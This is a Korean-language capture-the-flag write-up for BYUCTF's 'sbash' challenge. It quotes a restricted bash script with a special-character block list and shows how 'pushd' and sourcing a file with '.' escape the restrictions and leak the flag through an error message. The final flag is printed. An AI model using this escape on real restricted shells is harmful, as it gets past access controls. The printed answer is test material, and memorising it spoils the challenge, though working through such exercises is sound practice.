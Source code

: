 # sbash Writeup - BYUCTF

## 문제 코드
```bash
#!/bin/bash

unset PATH
enable -n exec
enable -n command
enable -n type
enable -n hash
enable -n cd
enable -n enable
set +x

echo "Welcome to my new bash, sbash, the Safe Bourne Again Shell! There's no exploiting this system"

while true; do
    read -p "safe_bash> " user_input
    
    # Check if input is empty
    [[ -z "$user_input" ]] && continue

    case "$user_input" in 
        *">"*|*"<"*|*"/"*|*";"*|*"&"*|*"$"*|*"("*|*"\`"*) echo "No special characters, those are unsafe!" && continue;;
    esac

    # Execute only if it's a Bash builtin
    eval "$user_input"
donehheh
```
---

## Description

쉘 환경이 제한되어 있는 `sbash`라는 커스텀 쉘에서 flag를 얻는 문제이다.  
문제를 처음 접속하면 일반적인 명령어들이 제한되어 있으며, 대부분의 경로 탐색 기능이 비활성화된 듯 보인다.

---

## Exploitation

1. 처음 디렉토리는 `/app`
2. `pushd ..` 명령어를 통해 상위 디렉토리로 이동하면 디렉토리 스택이 생기고, 현재 디렉토리 경로가 출력된다.

```bash
pushd ..
/ /app
```

3. 이후 pushd flag로 flag 디렉토리 접근 성공

```bash
pushd flag
/flag / /app
```
4. 디렉토리 내부에 flag.txt 파일이 존재함을 가정하고, . flag.txt 명령어 사용 (bash에서 .는 source 명령어의 alias로, 파일을 실행함)

```bash
. flag.txt
flag.txt: line 1: byuctf{enable_can_do_some_funky_stuff_huh?_488h33d}:
```

FLAG : byuctf{enable_can_do_some_funky_stuff_huh?_488h33d}

